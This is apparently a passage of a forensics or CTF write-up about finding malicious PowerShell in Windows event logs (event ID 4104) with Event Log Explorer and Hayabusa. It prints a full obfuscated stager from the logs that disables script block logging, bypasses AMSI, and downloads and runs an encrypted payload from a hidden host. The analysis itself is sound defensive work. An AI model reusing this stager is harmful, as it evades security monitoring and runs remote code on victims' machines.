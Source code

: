 We can use Event viewer to analyse the logs but ... meeeh 😫 I used [Event Log Explorer](https://eventlogxp.com/) , an effective software solution for viewing, analyzing and monitoring events recorded in Microsoft Windows event logs. You can also play around with [EvtxECmd](https://f001.backblazeb2.com/file/EricZimmermanTools/EvtxECmd.zip)

Moving on, we have 16 records but only interested in those that contain event id 4104

> _The event ID 4104 refers to the execution of a remote PowerShell command. This is a malicious event where the code attempts to retrieve instructions from the internet._

![image](https://user-images.githubusercontent.com/58165365/192338901-893f5820-8c8a-4d9d-8518-caa972e8c2ec.png)

All three events contained similar scriptblocks.

```powershell
Creating Scriptblock text (1 of 1):
If($PSVERSiOnTAblE.PSVerSIOn.MajOr -gE 3){$f0C32=[ref].ASseMBLy.GEtTyPE('System.Management.Automation.Utils')."GETFiE`LD"('cachedGroupPolicySettings','N'+'onPublic,Static');If($f0C32){$eA761=$f0c32.GetVaLuE($NULL);IF($Ea761['ScriptB'+'lockLogging']){$Ea761['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$eA761['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECtiONs.GeNEric.DIctioNAry[strIng,SystEm.ObJEct]]::neW();$vAL.ADd('EnableScriptB'+'lockLogging',0);$VaL.AdD('EnableScriptBlockInvocationLogging',0);$eA761['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$Val}ELsE{[SCriPTBlOCK]."GETFIe`LD"('signatures','N'+'onPublic,Static').SeTVAlUE($NULl,(New-ObjECT COllECtIONs.GeneRiC.HAshSet[StRiNG]))}$Ref=[ReF].ASsEmbLY.GetTyPE('System.Management.Automation.Amsi'+'Utils');$ReF.GEtFIelD('amsiInitF'+'ailed','NonPublic,Static').SETVALUe($nULL,$TRUe);};[SYStEm.Net.ServiCePOintMaNagER]::ExpECt100ConTinuE=0;$B3904=New-OBjECT SYsTEM.Net.WEbClIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TexT.EncODinG]::UNICOdE.GETStRiNg([CONvErt]::FrOMBaSe64StRING('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMAAuADIANwA6ADcANwA3ADcA')));$t='/news.php';$B3904.HEadErS.AdD('User-Agent',$u);$b3904.PROXY=[SYSTeM.NEt.WebREQuESt]::DefaUlTWebPrOxY;$B3904.Proxy.CredeNTIalS = [SySTeM.NEt.CREdEntIaLCAChe]::DEFAuLtNETworKCreDEntIals;$Script:Proxy = $b3904.Proxy;$K=[SysteM.Text.ENCoDInG]::ASCII.GEtBYtes('/Y0dzf;_)NkL^~M#K(xG]*rOFe,C}2%R');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$B3904.HeaderS.ADD("Cookie","lvzoFoofzAIvDVtv=R7eEC+1KSXf3X+sUQhz2DF+NSjQ=");$DATa=$b3904.DOWnLOAdDATA($SEr+$T);$iv=$Data[0..3];$dATa=$DaTA[4..$data.LenGTh];-Join[CHAr[]](& $R $DatA ($IV+$K))|IEX
```

Since i'm not that profficient with Powershell, i decided to poke around with yet another tool called [Hayabusa (隼)](https://github.com/Yamato-Security/hayabusa), a sigma-based threat hunting and fast forensics timeline generator for Windows event logs.

![image](https://user-images.githubusercontent.com/58165365/192407797-0945ccf1-1443-4f5f-9901-54b5ed11d56c.png)

From the results, atleast we have a general feel of what the script blocks does. For instance they are flagged as either:

- Potentially Malicious PwSh
- Suspicious PowerShell Invocations - Specific
- Windows PowerShell Web Request
- PwSh Scriptblock Log

It also gives you a nice summary(especially if you are analyzing many event log files).Hayabusa is just crazy awesome and hope to cover it in depth in subsequent blogs.
